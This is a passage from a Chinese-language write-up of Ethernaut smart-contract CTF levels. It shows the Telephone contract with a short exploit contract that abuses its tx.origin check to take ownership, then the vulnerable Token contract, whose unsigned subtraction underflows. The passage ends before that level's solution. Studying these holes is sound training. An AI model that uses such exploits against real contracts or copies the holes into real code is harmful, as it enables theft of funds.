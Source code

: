 所以思路就是部署一个合约A，我们调用这个合约A，而这个合约A调用题目合约，即可完成利用。

Exp:

```solidity
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
contract exploit {

    Telephone target = Telephone(0x298b8725eeff32B8aF708AFca5f46BF8305ad0ba);

    function hack() public{
        target.changeOwner(msg.sender);
    }
}
```

## token

### 题目

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
```